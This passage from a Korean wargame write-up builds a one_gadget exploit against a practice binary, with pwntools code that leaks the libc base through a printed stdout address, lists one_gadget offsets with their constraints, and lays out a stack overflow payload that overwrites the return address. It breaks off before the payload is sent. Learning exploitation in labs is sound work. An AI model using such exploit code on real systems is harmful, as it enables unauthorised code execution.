<br>

## **one_gadget** 사용

이번 바이너리에 사용된 `libc` 파일은 `libc.so.6` 인데, 해당 라이브러리에는 아래와 같이 4개의 `one_gadget`이 존재한다.

`main`에서 `return`을 한 후, `one_gadget`을 호출하는 상황에서의 레지스터 값을 찾아보면 아래에서 `rax == NULL` 조건과, `[rsp + 0x70] == NULL` 조건의 `one_gadget`만 사용 가능함을 알 수 있다.

![image](https://github.com/user-attachments/assets/f777ae4c-af7f-4167-9f6c-40370f1c905c)

<br>

## Exploit

위에서 분석한 바이너리를 통해 실제 Exploit 코드를 작성해보자.

### 1. Leak libc base

```py
# [1] Leak libc base
p.recvuntil(b'stdout: ')
libc_stdout = int(p.recvline()[:-1], 16) # b'0x..' 형식으로 출력되기 때문에 16진수로 해석 후 int로 변환해줘야함(u64는 b'\x--\x--' 형식에만 사용 가능)
libc_base = libc_stdout - libc.symbols['_IO_2_1_stdout_']

# 아래의 두 stdout으로는 안됨 (readelf -s 로 찾은거)
# libc_base = libc_stdout - libc.symbols['stdout']
# libc_base = libc_stdout - 0x3c5708
```

`stdout: ` 이 출력된 후 나오는 `stdout`이 매핑된 메모리 주소를 `libc_stdout`에 저장한다.

이때, `printf("stdout: %p\n", stdout);` 으로 출력하기 때문에 `0x--` 형식으로 출력되고, 뒤에 `\n`이 붙어서 나오기 때문에 

먼저 `p.recvline()[:-1]` 으로 `\n`을 날려주고, `int(p.recvline()[:-1], 16)`을 통해 입력 받은 `0x--` 형식의 `string`을 16진수로 해석하여 `int`로 변환해줘야 한다.

`fho` 워게임 문제의 바이너리에서처럼 `printf("%d")` 형식이나 `printf(%lld)`로 출력을 받았다면 바로 `u64()`로 언패킹이 가능하지만, `%p` 로 받았을 때는 무조건 16진수로 해석 후 `int`로 변환해줘야 한다.

그리고, 구한 `libc_stdout`에서 `stdout`의 `offset`인 `libc.symbols['_IO_2_1_stdout_']`을 빼주어서 `libc_base`를 구할 수 있다.

`libc.symbols['stdout']`이나, `readelf -s`로 구한 `offset`을 빼주면 안되는 것을 잘 기억하자.

<br>

### 2. Overwrite return address

```py
# [2] Overwrite return address
# 주석이 안된 2개의 가젯만 main이 return한 후 return address에 갔을 때 조건을 만족함
og = libc_base + 0x45216 # rax == NULL
# og = libc_base + 0x4526a # [rsp+0x30] == NULL
# og = libc_base + 0xf02a4 # [rsp+0x50] == NULL
og = libc_base + 0xf1147 # [rsp+0x70] == NULL

# stack은 주소 방향이 반대이므로, 리틀엔디언 잘 생각하기
payload = b'a' * 0x18       # msg(0x10) + buf(0x8)
payload += b'\x00' * 0x8    # check(0x8)
payload += b'a' * 0x8       # sfp(0x8)
payload += p64(og)[:-2]     # return address(0x8) : [:-2]를 해도 어쩌피 뒤에 b'\x00\x00'은 알아서 짤려서 안해줘도 되긴 함

# 아래처럼 하면 반대 방향으로 들어감
# payload = p64(og)[:-2]
# payload += b'a' * 0x8
# payload += b'\x00' * 0x8
```
